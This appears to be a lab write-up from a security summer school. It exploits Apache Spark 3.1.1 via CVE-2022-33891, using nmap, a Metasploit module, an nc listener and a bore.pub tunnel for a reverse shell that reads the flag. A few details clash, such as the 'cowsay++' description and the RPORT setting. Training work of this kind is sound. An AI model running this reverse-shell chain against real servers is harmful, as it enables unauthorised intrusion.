

---

Name: Spark
Difficulty: Medium
URL: http://141.85.224.102:8081/
Lab: SSS - lab 10
Category: "Security Summer School"
Description: "A hands-on Security Summer School walkthrough for cowsay++, covering the approach and key findings."
---

First we look at what the server offers
```bash
$ nmap 141.85.224.102 -p 8081 -sC -sV
Starting Nmap 7.92 ( https://nmap.org ) at 2026-07-23 19:07 EEST
Nmap scan report for smokey.burger.com (141.85.224.102)
Host is up (0.026s latency).

PORT     STATE SERVICE VERSION
8081/tcp open  http    Jetty 9.4.36.v20210114
|_http-title: Spark Master at spark://860a4ef6c6d9:7077
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Jetty(9.4.36.v20210114)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.90 seconds
```

Viewing the website it shows that the spark version used is 3.1.1



Searching for it on the internet reveals that it is vulnerable

We fire up metasploit and see what exploits we have there
```bash
$  msfconsole
# cowsay++
 ____________
< metasploit >
 ------------
       \   ,__,
        \  (oo)____
           (__)    )\
              ||--|| *


       =[ metasploit v6.4.145-dev-                              ]
+ -- --=[ 2,668 exploits - 1,343 auxiliary - 2,581 payloads     ]
+ -- --=[ 435 post - 57 encoders - 14 nops - 12 evasion         ]

Metasploit Documentation: https://docs.metasploit.com/
The Metasploit Framework is a Rapid7 Open Source Project

msf > search spark 3.1.1

Matching Modules
================

   #  Full Name                                           Disclosure Date  Rank       Check  Name
   -  ---------                                           ---------------  ----       -----  ----
   0  exploit/linux/http/apache_spark_rce_cve_2022_33891  2022-07-18       excellent  Yes    Apache Spark Unauthenticated Command Injection RCE
   1    \_ target: Unix (In-Memory)                       .                .          .      .
   2    \_ target: Linux Dropper                          .                .          .      .

```

Let's use it, it has an excellent rank and it is checked
```bash
msf > use 0
[*] Using configured payload cmd/unix/reverse_python
```

First we have to start a listener
```bash
$ nc -lvnp 4444
```

And create a public tunnel
```bash
$ bore local 4444 --to bore.pub
2026-07-23T16:24:06.888662Z  INFO bore_cli::client: connected to server remote_port=57114
2026-07-23T16:24:06.888685Z  INFO bore_cli::client: listening at bore.pub:57114
```

Now we can set the options for the exploit
```bash
msf exploit(linux/http/apache_spark_rce_cve_2022_33891) > set RHOSTS http://141.85.224.102:8081/
RHOSTS => http://141.85.224.102:8081/

msf exploit(linux/http/apache_spark_rce_cve_2022_33891) > set LHOST bore.pub
LHOST => bore.pub

msf exploit(linux/http/apache_spark_rce_cve_2022_33891) > set LPORT 57114
LPORT => 57114

msf exploit(linux/http/apache_spark_rce_cve_2022_33891) > options

Module options (exploit/linux/http/apache_spark_rce_cve_2022_33891):

   Name       Current Setting              Required  Description
   ----       ---------------              --------  -----------
   Proxies                                 no        A proxy chain of format type:host:port[,type:host:port][...].
                                                      Supported proxies: sapni, socks4, socks5, socks5h, http
   RHOSTS     http://141.85.224.102:8081/  yes       The target host(s), see https://docs.metasploit.com/docs/usin
                                                     g-metasploit/basics/using-metasploit.html
   RPORT      8080                         yes       The target port (TCP)
   SRVHOST                                 no        The local host to listen on and use for incoming connections
   SRVSSL     false                        no        Negotiate SSL/TLS for local server connections
   SSL        false                        no        Negotiate SSL/TLS for outgoing connections
   SSLCert                                 no        Path to a custom SSL certificate (default is randomly generat
                                                     ed)
   TARGETURI  /                            yes       The URI of the vulnerable instance
   URIPATH                                 no        The URI to use for this exploit (default is random)
   VHOST                                   no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVPORT  8080             yes       The local port to listen on


Payload options (cmd/unix/reverse_python):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  bore.pub         yes       The listen address (an interface may be specified)
   LPORT  57114            yes       The listen port
   SHELL  /bin/sh          yes       The system shell to use


Exploit target:

   Id  Name
   --  ----
   0   Unix (In-Memory)

```

```bash
$ ls
LICENSE
NOTICE
R
README.md
RELEASE
bin
conf
data
examples
jars
kubernetes
licenses
logs
python
sbin
tmp
venv
work
yarn
id
$ uid=1001(spark) gid=0(spark) groups=0(spark)
$ whoami
spark

$ cat /home/ctf/flag.txt
SSS{sp4rky_b3_th3_m4rky}
```


